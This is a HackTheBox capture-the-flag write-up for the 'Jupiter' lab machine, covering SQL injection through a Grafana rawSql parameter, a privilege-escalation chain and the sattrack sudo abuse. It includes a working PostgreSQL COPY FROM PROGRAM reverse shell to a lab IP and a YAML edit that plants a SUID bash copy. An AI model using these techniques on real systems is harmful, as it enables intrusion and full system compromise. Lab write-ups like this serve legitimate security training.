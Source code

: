# [Jupiter](https://app.hackthebox.com/machines/Jupiter) - 29/08/2023 - HackTheBox write-up

IP:   10.10.11.216
Name: `jupiter.htb`

## User flag

### Discovery

There is a web and a SSH server. After enumeration we can find the other interesting web server running under `kiosk.jupiter.htb`. By looking at queries in BurpSuite, we can find many POST requests to `/api/ds/query` with a `rawSql` parameter.

### Searching for vulnerability

We can just use this parameter to execute any SQL query we want. The database is a PostgreSQL instance, and we have access to the `pg_shadow` table where we find this hash:
```
User : grafana_viewer
Hash : SCRAM-SHA-256$4096:K9IJE4h9f9+tr7u7AZL76w==$qdrtC1sThWDZGwnPwNctrEbEwc8rFpLWYFVTeLOy3ss=:oD4gG69X8qrSG4bXtQ62M83OkjeFDOYrypE3tUv0JOY=
```

But it's uncrackable...

### Exploitation

After tests we have high privileges in the database and we can read files and execute commands, so we can start a reverse shell with this request:
```
drop table if exists cmd_exec;
create table cmd_exec(cmd_output text);
copy cmd_exec from program '/bin/bash -c "bash -i >& /dev/tcp/10.10.14.47/56384 0>&1"';
select * from cmd_exec;
```

Now we have a shell access to the `postgres` user.

### Searching for vulnerability

There is two users, `juno` and `jovian`. We need to find a way to priv esc to one of them first.

With `pspy64` we can find a process running by `juno` every few minutes, using a file `network-simulation.yml`, in `/dev/shm`. This directory is world-writeable so it could be interesting. The file is editable and contains the following:
```yaml
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/python3
      args: -m http.server 80
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/curl
      args: -s server
      start_time: 5s
```

### Exploitation

We can now replace the path and args parameters to run any commands we want. I've tried first to start a second reverse shell in Python, but it won't work, and finally, copy the `bash` file in `/tmp` and then add the SUID bit with `chmod`, like this:
```
hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /bin/bash /tmp/file
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/chmod
      args: u+s /tmp/file
      start_time: 5s
```

We just need to wait for the job to finish and next run `/tmp/file -p`. We obtain a basic shell as `juno`, we can add our SSH keys for the next step, and get the flag !

## Root flag

User `jovian` is part of `sudo` group so we might need to do lateral movement first.

In `/opt` there is a folder with a service and logs. It's a jupyter notebook running on localhost, port 8888. With `chisel` we can forward traffic and access the notebook.

We need a token to authenticate, and we can found it in the logs. Then, we have access to the jupyter notebook and execute Python code as `jovian`. So, basically we run another reverse shell, and add our SSH key.

### Searching for elevating privileges

Now we are `jovian`, and by running `sudo -l` we see that we can run `/usr/local/bin/sattrack`. The program needs a configuration file that we can build step by steps, with the program error. But, after a few time at doing reverse engineering and tests, I found the complete file in `/usr/local/share/sattrack/config.json`:
```json
{
	"tleroot": "/tmp/tle/",
	"tlefile": "weather.txt",
	"mapfile": "/usr/local/share/sattrack/map.json",
	"texturefile": "/usr/local/share/sattrack/earth.png",
	
	"tlesources": [
		"http://celestrak.org/NORAD/elements/noaa.txt",
		"http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle"
	],
	
	"updatePerdiod": 1000,
	
	"station": {
		"name": "LORCA",
		"lat": 37.6725,
		"lon": -1.5863,
		"hgt": 335.0
	},
	
	"show": [
	],
	
	"columns": [
		"name",
		"azel",
		"dis",
		"geo",
		"tab",
		"pos",
		"vel"
	]
}
```

The file is read and then the resources files are stored in `/tmp/tle`.

### Exploitation

To exploit this, is very simple we just need to add `file:///root/root.txt` as a `tlesources`, and run the command with sudo.

Then we will find the flag in `/tmp/tle/root.txt`.
